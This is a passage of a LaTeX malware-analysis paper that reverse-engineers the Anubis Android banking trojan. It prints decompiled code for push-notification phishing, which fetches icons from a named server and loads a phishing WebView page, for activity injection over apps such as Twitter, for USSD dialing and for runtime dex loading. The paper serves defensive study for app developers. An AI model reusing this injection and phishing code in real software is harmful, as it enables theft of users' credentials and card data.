       "EZ1eExGNnhMRWdiMjVoZVd4aGVjU3hiaUJoYTNOcElIUmhhMlJwY21SbElHSn" + 
       "NiMnRsSUdWa2FXeGxZMlZyZEdseUxnPT0="
  goto L_0x0c7a
  [...]
L_0x0d34: // default of switch-case
  // Urgent message!
  java.lang.String r11 = "VlhKblpXNTBJRzFsYzNOaFoyVWg="
  java.lang.String r11 = naqsl.ebxcb.exu.Cint.m430int(r11)     // Catch:{ Exception -> 0x0d76 }
  java.lang.String r11 = naqsl.ebxcb.exu.Cint.m430int(r11)    
  
  // Confirm your account
  java.lang.String r12 = "UTI5dVptbHliU0I1YjNWeUlHRmpZMjkxYm5RPQ=="
  goto L_0x0c7a
L_0x0d42:
  android.content.Intent r13 = new android.content.Intent    
  java.lang.Class<naqsl.ebxcb.exu.ServiceModuleNotification> r14 =
                                  naqsl.ebxcb.exu.ServiceModuleNotification.class
  r13.<init>(r0, r14)     // Catch:{ Exception -> 0x0d76 }
  java.lang.String r14 = "WVhCd2JtRnRaUT09" // appname
  [...]
  android.content.Intent r5 = r13.putExtra(r14, r5)     
  java.lang.String r13 = "ZEdsMGJHVT0=" // title
  [...]
  android.content.Intent r5 = r5.putExtra(r13, r11)     
  java.lang.String r11 = "ZEdWNGRBPT0=" // text
  [...]
  android.content.Intent r5 = r5.putExtra(r11, r12)     
  r0.startService(r5)     // Catch:{ Exception -> 0x0d76 }
\end{lstlisting}

\newpage
The intent service \textit{naqsl.ebxcb.exu.ServiceModuleNotification} implements an \textit{AsyncTask} that fetches an icon resource from a Web server. The Service implemnts the onHandleIntent function which (see Listing \ref{sevicemodulnotificationonhandleintent}) reads the url to gather the image from \textit{SharedPreferences} via the \textit{naqsl.ebxcb.exu.Cint.fddo()} (see Listing \ref{cintfddoreadfromsharedpreferences}) function and "url" as key (see chapter \ref{datastructure} and the ServiceModuleNotification.onHandleIntent). As seen in the chapter \ref{datastructure} the url in our test run was "http://hangikapi.com/icon/[appname].png"

\begin{lstlisting}[label=sevicemodulnotificationonhandleintent,caption=\textit{naqsl.ebxcb.exu.ServiceModuleNotification.onHandleIntent()} collects neccessary strings from the intent extras as well as the target url using the \textit{f586fddo.fddo()} (f586fddo is a member of type \textit{naqsl.ebxcb.exu.Cint}) function. Then it executes the Async task \textit{naqsl.ebxcb.exu.ServiceModuleNotification.fddo}.,frame=tb]
    public void onHandleIntent(Intent intent) {
        [...]                                            // YXBwbmFtZQ== = "appname"
        String stringExtra = intent.getStringExtra(Cint.m430int("YXBwbmFtZQ==")); 
        [...]
        String fddo2 = this.f586fddo.fddo((Context) this, Cint.m430int("dXJs"));
        Cint intR = this.f586fddo;
        [...]
        String str2 = "L2ljb24v"; // /icon/
        [...]
        String str3 = "LnBuZw=="; // .png
        [...]
        StringBuilder sb2 = new StringBuilder();
        sb2.append(fddo2);
        sb2.append(Cint.m430int(str2));
        sb2.append(stringExtra);
        sb2.append(Cint.m430int(str3));
        fddo fddo3 = new fddo(this, stringExtra2, stringExtra3, sb2.toString(), stringExtra);
        fddo3.execute(new String[0]);
    }
\end{lstlisting}

\begin{lstlisting}[label=cintfddoreadfromsharedpreferences,caption=The function textit{naqsl.ebxcb.exu.Cint.fddo()} reads the url of the Web resource from the shared preferences using the \textit{android.app.Context.getSharedPreferences} function.,frame=tb]
    public String fddo(Context context, String str) {
        if (f478for == null) {
            f478for = context.getSharedPreferences(m430int("c2V0"), 0);
            f478for.edit();
        }
        String string = f478for.getString(str, null);
        return (str.contains(m430int("dXJsSW5q")) 
                               || str.contains("urls")) ? ifdf(string) : string;
    }
\end{lstlisting}

Now the \textit{naqsl.ebxcb.exu.ServiceModuleNotification.doInBackground}
function fetches the resource icon for the taret App using the \textit{java.net.HttpURLConnection} class. The result will be directly decoded into a bitmap. (See Listing \ref{servicemodulenotificationdoinbackground})

\begin{lstlisting}[label=servicemodulenotificationdoinbackground,caption=The function textit{naqsl.ebxcb.exu.ServiceModuleNotification.doInBackground} fetches the Web resource and decodes it as bitmap.,frame=tb]
   public Bitmap doInBackground(String... strArr) {
     ServiceModuleNotification serviceModuleNotification = ServiceModuleNotification.this;
     Cint intR = serviceModuleNotification.f586fddo;
     Cint intR2 = serviceModuleNotification.ifdf;
     String str = Cint.m430int("UFVTSA==");
     Cint intR3 = ServiceModuleNotification.this.ifdf;
     intR.fddo(str, Cint.m430int("Mw=="));
     Bitmap bitmap = null;
     try {
       HttpURLConnection httpURLConnection = (HttpURLConnection) new URL(this.f421int)
                                                                      .openConnection();
       httpURLConnection.setDoInput(true);
       httpURLConnection.connect();
       bitmap = BitmapFactory.decodeStream(httpURLConnection.getInputStream());
       [...]
\end{lstlisting}
 
\newpage
The post execute function creates a notification using the fetched image as well as the strings given as parameters from the \textit{ServiceCommands.fddo()} function ( see Listing \ref{activitypushinjectiononpostexecute}). This will be used to meme the notification as beeing from another app possibly installed on the system.

\begin{lstlisting}[label=activitypushinjectiononpostexecute,caption=The onPostExecute function spawns a notification with a cusom icon and the \textit{naqsl/ebxcb.exu.Activity.ActivityPushInjection} activity as PendingIntent by calling the \textit{android.app.NotificationManager.notify} function.,frame=tb]
        public void onPostExecute(Bitmap bitmap) {
            super.onPostExecute(bitmap);
            try {
                Cint intR = ServiceModuleNotification.this.f586fddo;
                Context context = this.f587fddo;
                Cint intR2 = ServiceModuleNotification.this.ifdf;
                intR.ifdf(context, Cint.m430int("c3RyX3B1c2hfZmlzaA=="), this.f422new);
                Intent intent = new Intent(
                                     ServiceModuleNotification.this, 
                                     ActivityPushInjection.class);
               [..]               
               if (VERSION.SDK_INT <= 25) {
                    NotificationManager notificationManager = 
                       (NotificationManager) this.f587fddo.getSystemService("notification");
                    Builder defaults = new Builder(this.f587fddo)
                    .setContentIntent(
                           PendingIntent
                              .getActivity(this.f587fddo, 100, addFlags, 1073741824)
                        )
                       .setContentTitle(this.ifdf)
                       .setContentText(this.f420for)
                       .setVibrate(new long[]{1000, 1000, 1000, 1000, 1000})
                       .setPriority(1).setDefaults(2)
                       .setDefaults(1).setDefaults(4);
                    Resources resources = this.f587fddo.getResources();
                    StringBuilder sb = new StringBuilder();
                    sb.append(this.f587fddo.getPackageName());
                    Cint intR4 = ServiceModuleNotification.this.ifdf;
                    sb.append(Cint.m430int("Om1pcG1hcC9pY19sYXVuY2hlcg=="));
                    Notification build = defaults
                          .setSmallIcon(resources.getIdentifier(sb.toString(), null, null))
                          .setLargeIcon(bitmap).build();
                    build.flags |= 16;
                    notificationManager.notify(1, build);
                    return;
                }
                ServiceModuleNotification.this.f586fddo
                      .fddo(this.f587fddo, addFlags, bitmap, this.ifdf, this.f420for);
            } catch (Exception unused) {
            }
        }
    }
\end{lstlisting}

Once the user clicked on the Notification the \textit{naqsl/ebxcb.exu.Activity.ActivityPushInjection} Activity will be shown. The \textit{naqsl/ebxcb.exu.Activity.ActivityPushInjection.onStart()} function configures a \textit{android.view.WebView} instance to load an url read from the config file (read config file is done using the \textit{ifdf.fddo()} function (see Listing \ref{activitypushinjectiononstart}. The function \textit{android.view.WebView.loadUrl()} initiates the target web page to be loaded. 

Now the malware can load a web page that looks like the target app and can phish credentials, credit card information and much more.

\newpage
\begin{lstlisting}[label=activitypushinjectiononstart,caption=The \textit{naqsl.ebxcb.exu.Activity.ActivityPushInjection.center}
  function initializes a webview pointing to an url loaded from the shared preferences.,frame=tb]
    public void onStart() {
        super.onStart();
        this.ifdf.ifdf(this, "name", "true");
        String fddo2 = this.ifdf.fddo((Context) this, "str_push_fish");
        String str = "";
        if (!fddo2.equals(str) || !fddo2.equals(null)) {
            this.f565fddo.getClass();
            try {
                str = this.ifdf.fddo((Context) this, "urlInj");
            } catch (Exception unused) {
            }
            WebView webView = new WebView(this);
            webView.getSettings().setJavaScriptEnabled(true);
            webView.setScrollBarStyle(0);
            webView.setWebViewClient(new Cfor());
            webView.setWebChromeClient(new ifdf());
            String country = Resources.getSystem().getConfiguration().locale.getCountry();
            StringBuilder sb = new StringBuilder();
            sb.append(str);
            sb.append("/fafa.php?f=");
            sb.append(fddo2);
            sb.append("&p=");
            sb.append(this.ifdf.fddo((Context) this));
            String str2 = "|";
            sb.append(str2);
            sb.append(country.toLowerCase());
            webView.loadUrl(sb.toString());
            setContentView(webView);
            Cint intR = this.ifdf;
            StringBuilder sb2 = new StringBuilder();
            sb2.append("p=");
            Cint intR2 = this.ifdf;
            StringBuilder sb3 = new StringBuilder();
            sb3.append(this.ifdf.fddo((Context) this));
            sb3.append("|Start injection ");
            sb3.append(fddo2);
            sb3.append(str2);
            sb2.append(intR2.m439for(sb3.toString()));
            intR.fddo((Context) this, "4", sb2.toString());
        }
    }
\end{lstlisting}
 
This attack will be started from the \textit{naqsl.ebxcb.exu.ServiceCommands} Service (read more in chapter \ref{featureselection}.

\newpage
\subsubsection{ACTIVITY INJECTION} \label{activityinjection}
Activity injeciton means that a malicious Activity will be injected into a use-case of another App. In order to achieve that the malware implemented the \textit{naqsl.ebxcb.exu.ServiceInjections} Service with the purpose of identify currently running apps and inject (launch) an malicious Activity on top of it. The Service implements the function \textit{naqsl.ebxcb.exu.ServiceInjections.ifdf()} which searches for running apps using the \textit{android.app.ActivityManager.getRunningTasks()} \cite[/reference/android/app/ActivityManager\#getRunningTasks(int)]{AndroidDev} and \textit{android.app.ActivityManager.getRunningAppProcesses()} \cite[/reference/android/app/ActivityManager\#getRunningAppProcesses()]{AndroidDev} (see Listing \ref{serviceinjectionsifdf}). Those functions are deprecated and won't return any information about other processes since Andorid 5. However all android versions below are affected by this attack.

\begin{lstlisting}[label=serviceinjectionsifdf,caption=The function \textit{naqsl.ebxcb.exu.ServiceInjections.ifdf()} searches for running Apps using the API functions \textit{android.app.ActivityManager.getRunningTasks()} \cite{AndroidDev} and \textit{android.app.ActivityManager.getRunningAppProcesses()} \cite{AndroidDev} which are deprecated since Android 5.,frame=tb]

    private ArrayList<String> ifdf() {
        String str;
        ArrayList<String> arrayList = new ArrayList<>();
        int i = VERSION.SDK_INT;
        String str2 = "activity";
        if (i <= 19) {
            List runningTasks = ((ActivityManager) getSystemService(str2))
                                                     .getRunningTasks(1);
            ComponentName componentName = ((RunningTaskInfo) runningTasks.get(0))
                                                                        .topActivity;
            str = ((RunningTaskInfo) runningTasks.get(0)).topActivity.getPackageName();
        } else if (i <= 19 || i > 21) {
            int i2 = VERSION.SDK_INT;
            if (i2 <= 21 || i2 > 23) {
                int i3 = VERSION.SDK_INT;
                str = this.f584fddo.m444goto(this.f419for);
            } else {
                List<fddo> fddo2 = ifdf.fddo(this);
                ArrayList<String> arrayList2 = new ArrayList<>();
                for (fddo fddo3 : fddo2) {
                    arrayList2.add(fddo3.m399int().trim());
                }
                return arrayList2;
            }
        } else {
            str = ((RunningAppProcessInfo) ((ActivityManager)
                   getSystemService(str2)).getRunningAppProcesses().get(0)).processName;
        }
        arrayList.add(str);
        return arrayList;
    }
\end{lstlisting}

If an Application was found matching the value stored in \textit{SharedPreferences} (see chapter \ref{datastructure}) the \textit{naqsl.ebxcb.exu.Activity.ActivityInjection} Activity will be launched. (see Listing \ref{serviceinjectionfddo})

\begin{lstlisting}[label=serviceinjectionfddo,caption=The function \textit{naqsl.ebxcb.exu.ServiceInjections.fddo()} verifies if current foreground task matches to a value stored in \textit{SharedPreferences} \textbf{name} tag and launches the Activity \textit{naqsl.ebxcb.exu.Activity.ActivityInjection} if neccessary.,frame=tb]
public void fddo() {
        [...]
        if (!this.f584fddo.fddo(this.f419for, 
                                  Cint.m430int(Cint.m430int("Ym1GdFpRPT0=" /*name*/)))
                                  .contains(Cint.m430int(
                                  Cint.m430int("ZEhKMVpRPT0=" /*true*/)))) {
           Intent putExtra = new Intent(this, ActivityInjection.class)
                     .putExtra(Cint.m430int(Cint.m430int("YzNSeQ==")), str3); // str
\end{lstlisting}

The \textit{naqsl.ebxcb.exu.Activity.ActivityInjection} implements the \cite{onStart()} function with loads a WebView showing a URL constructed from settings and hardcoded values. This allowes the malware to update potential UI changes directly via Web resources instead of update the malware App on the client side. Also it's easier to apply attacks to new victims. (see Listing \ref{activityinjectiononstart})
\newpage
\begin{lstlisting}[label=activityinjectiononstart,caption=The Activity \textit{naqsl.ebxcb.exu.Activity.ActivityInjection} shows a webview which allows to show dynamic content for phishing credentials or other sensitive information.,frame=tb]
public void onStart() {
        super.onStart();
        [...]
        if (!stringExtra.equals(str) || !stringExtra.equals(null)) {
            [...]
            sb.append("/fafa.php?f=");
            sb.append(stringExtra);
            sb.append("&p=");
            sb.append(this.ifdf.fddo((Context) this));
            String str2 = "|";
            sb.append(str2);
            sb.append(country.toLowerCase());
            webView.loadUrl(sb.toString());
            setContentView(webView);
            [...]
        }
    }
\end{lstlisting}


Also the \textit{naqsl.ebxcb.exu.ServiceAccessibility} (see more in chapter \ref{keylogger}) service is able to perform an Activity Injection attack if it finds an target App. (see Listing \ref{serviceaccessibilityfddorun})

\begin{lstlisting}[label=serviceaccessibilityfddorun,caption=The function \textit{naqsl.ebxcb.exu.ServiceAccessibility\$fddo.run()} launches the \textit{naqsl.ebxcb.exu.Activity.ActivityInjection} if a known App is on top of the screen.,frame=tb]
public void run() {
            [...]
            // com.imo.android.imoim,com.twitter.android
            String str2 = "WTI5dExtbHRieTVoYm1SeWIybGtMbWx0Y" +                   
                          "jJsdExHTnZiUzUwZDJsMGRHVnlMbUZ1WkhKdmFXUT0=";
            if (str.contains(Cint.m430int(Cint.m430int(str2)))) {
                Cint intR2 = ServiceAccessibility.this.ifdf;
                String str3 = Cint.m430int(Cint.m430int(str2));
                Cint intR3 = ServiceAccessibility.this.ifdf;
                // com.imo.android.imoim,com.twitter.android,com.android.vending
                str = str.replace(str3, Cint.m430int(Cint.m430int(
                      "WTI5dExtbHRieTVoYm1SeWIybGtMbWx0YjJsdExHT" + 
                      "nZiUzUwZDJsMGRHVnlMbUZ1WkhKdmFXUXNZMjl0TG" + 
                      "1GdVpISnZhV1F1ZG1WdVpHbHVadz09")));
            }
            [...] ServiceAccessibility.this.getSystemService("keyguard"))
                                             .inKeyguardRestrictedInputMode()) {
                    try {
                        Intent intent = new Intent(this.ifdf, ActivityInjection.class);
                        [...]
                        ServiceAccessibility.this.startActivity(putExtra);
\end{lstlisting}

\subsubsection{ENTER USSD CODES} \label{ussdcodes}
The Activity \textit{naqsl.ebxcb.exu.Activity.ActivityStartUSSD} implements the funciton 
\\ \textit{naqsl.ebxcb.exu.Activity.ActivityStartUSSD.onCreate()} that creates an intent with action \textbf{android.intent.action.CALL} and the USSD code as data parameter. (see \ref{ussdcodesoncreate})

\begin{lstlisting}[label=ussdcodesoncreate,caption=The function \textit{naqsl.ebxcb.exu.Activity.ActivityStartUSSD.onCreate()} starts an \textbf{android.intent.action.CALL} intent in order to execute an USSD code.,frame=tb]
public class ActivityStartUSSD extends Activity {
    [...]
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        try {
            String encode = Uri.encode(getIntent().getStringExtra("str")
                                                        .replace("AAA", "#"));
            Intent intent = new Intent("android.intent.action.CALL");
            StringBuilder sb = new StringBuilder();
            sb.append("tel:");
            sb.append(encode);
            startActivity(intent.setData(Uri.parse(sb.toString())));
            [...]
\end{lstlisting}


This attack will be started from the \textit{naqsl.ebxcb.exu.ServiceCommands} Service (read more in chapter \ref{featureselection}.

            
\newpage
\subsection{FETCH AND LOAD CODE AT RUNTIME}
As readable in the API usage dump the malware is using \textit{DexClassLoader} to load class files at runtime (see also Listing \ref{dexclassloaderusage}).


\begin{lstlisting}[label=dexclassloaderusage,caption=The malware is using \textit{dalvik.system.DexClassLoader} and is able to load code at runtime for example from a Web resource.,frame=tb]
Ldalvik/system/DexClassLoader;
Ldalvik/system/DexClassLoader;
   -><init>(Ljava/lang/String;Ljava/lang/String;Ljava/lang/String;Ljava/lang/ClassLoader;)
Ldalvik/system/DexClassLoader;->loadClass(Ljava/lang/String;)Ljava/lang/Class;
\end{lstlisting}

Potentially this could be used to load exploits (also root exploits) even the app is already installed. The same logic is also used while performing Push injection. The difference is that the purpose of this dex load seems more to be related to be able to fetch platform dependend support libraries in future.

\textbf{However during the reverse enginneering it seems not to be possible to fetch an example dex file because the Web resource seems to not be available anymore.}




\section{CONCLUSION}
The Anubis malware included in this version has a powerfull features set and workarounds to make it hard for users to get rid of the software. The combination of dynamic and static features as well as just using public API makes the live hard for developers of Banking Apps. Features like Keylogging (see chapter \ref{keylogger}), PushInjection (see chapter \ref{pushinjection}) as well as ActivityInjection are very hard to defense from an App developer perspective due to the fact that they're using public API of the Android system which is intended to perform those actions as long as the users grants permission to it.

However to lot of these features latest versions of Android includes security improvements to prevent scenarios where a backround service is starting an Activity. This means to enforce the Accessibility permission described in chapter \ref{runtimebehaviour} is not possible in the way implemented here. The counterpart is that the Android versions including this fix don't have a significant share in turkey currently \cite{TURKEYANDROIDVERSIONS}.

This combines two worse facts about Android: 
\begin{description}
\item[Beeing an open system that allowes much for users and developers]
\item[Heavy OS version fragmentation]
\end{description}

This paper is intended to help developers understand the threat outgoing of such malware and thinking about protection of their Apps.

\newpage
\lstlistoflistings

\newpage
\onecolumn
\renewcommand{\refname}{\section{REFERENCES}} 
\begin{thebibliography}{9}

\bibitem{RevEngineerAnubisMal}
  Elliot Alderson.
  \textit{Reverse Engineering of the Anubis Malware},
  \\https://medium.com/@fs0c131y/reverse-engineering-of-the-anubis-malware-part-1-741e12f5a6bd,
  Version: android10-release,
  2018.
  
\bibitem{AndroidDev}
  Google Inc.
  \textit{Android Developers},
  \\https://developer.android.com/
  2020.
  
\bibitem{LinuxManPages}
  Free Software Foundation, Inc.
  \textit{Linux Man Pages},
  \\https://linux.die.net
  2020.
  
\bibitem{GSMTechnicalSpec}
  European Telecommunications Standard Institute,
  \textit{Digital cellular telecommunication system (Phase 2+); Man-Machine Interface (MMI) of the Mobil Station (MS) (GMS 02.30)},
  July 1996
  
\bibitem{ExploitingAccessibilityInOperatingSystems}
  Chengyu Song, Simon P. Chung, Tielei Wang, and Wenke Lee
  \textit{A11y Attacks: Exploiting Accessibility in Operating Systems},
  School of Computer Science, College of ComputingGeorgia Institute of Technology, Atlanta, GA, US,
  2014.
  
\bibitem{ANUBISTRENDMICRO}
  Tony Bao (Mobile Threat Response Team)
  \textit{Anubis Android Malware Returns with Over 17,000 Samples},
  \\https://blog.trendmicro.com/trendlabs-security-intelligence/anubis-android-malware-returns-with-over-17000-samples/,
  July, 8th 2019.
  
\bibitem{ANUBISTURKEY2020}
  BushidoToken cybersecurity,
  \textit{Turkey targeted by Cerberus and Anubis Android banking Trojan campaigns },
  //https://blog.bushidotoken.net/2020/05/turkey-targeted-by-cerberus-and-anubis.html,
  May, 9th 2020.

\bibitem{ALLSTARTEDWITHBANKBOT}
  ThreatFabric B.V.,
  \textit{Anubis II - malware and afterlife},
  \\https://www.threatfabric.com/blogs/anubis\_2\_malware\_and\_afterlife.html,
  March 2019.
  
\bibitem{COVID19REF}
  Morbidity and Mortality Weekly ReportEarly Release / Vol. 69 March 18, 2020U.S. Department of Health and Human Services,
  \textit{Severe Outcomes Among Patients with Coronavirus Disease 2019 (COVID-19) — United States, February 12–March 16, 2020},
  \\http://www.ecie.com.ar/images/paginas/COVID-19/4MMWR-Severe\_Outcomes\_Among\_Patients\_with\_Coronavirus\_Disease\_2019\_COVID-19-United\_States\_February\_12-March\_16\_2020.pdf,
  March, 18th 2020.
  
\bibitem{REVEANUBIS}
 Elliot Alderson,
 \textit{Reverse Engineering of the Anubis Malware},
 \\https://medium.com/@fs0c131y/reverse-engineering-of-the-anubis-malware-part-1-741e12f5a6bd,
 Oct, 29 2018.
  
\bibitem{TURKEYANDROIDVERSIONS}
 StatCounter,
 \textit{Mobile \& Tablet Android Version Market Share Turkey},
 \\https://gs.statcounter.com/android-version-market-share/mobile-tablet/turkey,
 March 2020.
  
\end{thebibliography}

\end{document}